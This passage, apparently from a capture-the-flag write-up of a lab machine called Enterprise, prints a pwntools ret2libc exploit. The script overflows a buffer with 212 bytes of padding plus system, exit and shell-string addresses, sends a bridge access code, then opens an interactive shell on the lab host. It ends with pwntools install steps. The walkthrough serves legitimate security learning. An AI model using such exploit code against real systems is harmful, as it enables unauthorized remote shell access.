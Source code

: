 ```sh
#!/usr/bin/env python3

from pwn import *


system_addr = p32(0xF7E4C060)
exit_addr = p32(0xF7E3FAF0)
sh_addr = p32(0xF7F6DDD5)

payload = b"A" * 212 + system_addr + exit_addr + sh_addr

r = remote("10.10.10.61", 32812)
r.recvuntil("Enter Bridge Access Code:")
r.sendline("picarda1")
r.recvuntil("Waiting for input:")
r.sendline("4")
r.recvuntil("Enter Security Override:")
r.sendline(payload)
r.interactive()
```

It creates the payload with 212 bytes of junk followed by the addresses. Then it uses [pwntools](https://github.com/Gallopsled/pwntools) to interact with the remote system, sending the access code and menu selection before the payload, and then dropping into an interactive shell.

lets create an env on our local machine and install `pwntools`

```
virtualenv venv
source venv/bin/activate

pip install pwntools
```

![](/Linux/Linux-Medium/Enterprise/Screenshots/venv.png)

then lets run the `script now`
